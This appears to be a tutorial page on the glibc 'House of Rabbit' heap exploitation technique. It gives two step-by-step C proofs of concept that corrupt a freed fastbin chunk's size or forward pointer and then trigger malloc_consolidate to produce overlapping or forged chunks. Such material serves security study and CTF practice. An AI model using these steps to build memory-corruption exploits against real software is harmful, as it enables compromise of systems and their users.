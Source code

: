 # House of Rabbit


### Requirements

1. **Ability to Modify Fastbin fd Pointer or Size**: This means you can change the forward pointer of a chunk in the fastbin or its size.
2. **Ability to Trigger `malloc_consolidate`**: This can be done by either allocating a large chunk or merging the top chunk, which forces the heap to consolidate chunks.

### Goals

1. **Create Overlapping Chunks**: To have one chunk overlap with another, allowing for further heap manipulations.
2. **Forge Fake Chunks**: To trick the allocator into treating a fake chunk as a legitimate chunk during heap operations.

## Steps of the Attack

### POC 1: Modify the Size of a Fastbin Chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```

We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fastbin list once freed.

* **Step 2: Free Chunks**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```

We free both chunks, adding them to the fastbin list.

* **Step 3: Modify Chunk Size**

```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```

We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Step 4: Trigger `malloc_consolidate`**

```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fastbin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the FD Pointer

**Objective**: Create a fake chunk by manipulating the fastbin fd pointer.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```

**Explanation**: We allocate two chunks, one smaller and one larger, to set up the heap for the fake chunk.

* **Step 2: Create Fake Chunk**

```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```

We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **Step 3: Free Chunk1**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
```

**Explanation**: We free `chunk1`, adding it to the fastbin list.

* **Step 4: Modify FD of Chunk1**

```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```

**Explanation**: We change the forward pointer (fd) of `chunk1` to point to our fake chunk inside `chunk2`.

* **Step 5: Trigger `malloc_consolidate`**

```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fastbin chunk to create overlapping chunks or manipulating the fd pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

